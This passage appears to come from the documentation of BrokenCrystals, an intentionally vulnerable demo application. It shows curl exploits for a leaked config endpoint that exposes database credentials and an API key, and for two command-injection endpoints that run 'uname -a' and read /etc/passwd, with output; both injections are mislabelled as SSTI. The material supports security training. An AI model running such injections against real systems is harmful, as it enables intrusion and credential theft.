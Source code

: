       ```bash
      curl http://brokencrystals.com/api/config
      ```

      The server responds with configuration details:

      ```json
      {
        "awsBucket": "https://neuralegion-open-bucket.s3.amazonaws.com",
        "sql": "postgres://bc:bc@postgres:5432/bc",
        "googlemaps": "AIzaSyD2wIxpYCuNI0Zjt8kChs2hLTS5abVQfRQ"
      }
      ```

    </details>

- **OS Command Injection** - The /api/spawn endpoint spawns a new process using the command in the _command_ query parameter. The endpoint is not referenced from UI.
    <details>
      <summary>Example Exploitation</summary>

      To demonstrate an SSTI attack, you can use the following `curl` command:

      ```bash
      $ curl 'https://brokencrystals.com/api/spawn?command=uname%20-a'
      ```

      The response includes a result of code execution:

      ```
      Linux brokencrystals-5b9b6759cb-66vvt 6.1.115-126.197.amzn2023.x86_64 #1 SMP PREEMPT_DYNAMIC Tue Nov  5 17:36:57 UTC 2024 x86_64 Linux
      ```

    </details>

    <details>
      <summary>Another Example Exploitation on graphQL</summary>

      To demonstrate another SSTI attack, you can use the following `curl` command:

      ```bash
      curl -i -X POST -H Content-Type:application/json -H Accept:application/json 'https://brokencrystals.com/graphql' -d '{"query":"query ($getCommandResult_command: String!) { getCommandResult (command: $getCommandResult_command) }" ,"variables":{"getCommandResult_command":"/bin/cat /etc/passwd "}}'
      ```

      The response includes a result of code execution:

      ```
      {"data":{"getCommandResult":"root:x:0:0:root:/root:/bin/sh\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nnode:x:1000:1000::/home/node:/bin/sh\n"}}%
      ```
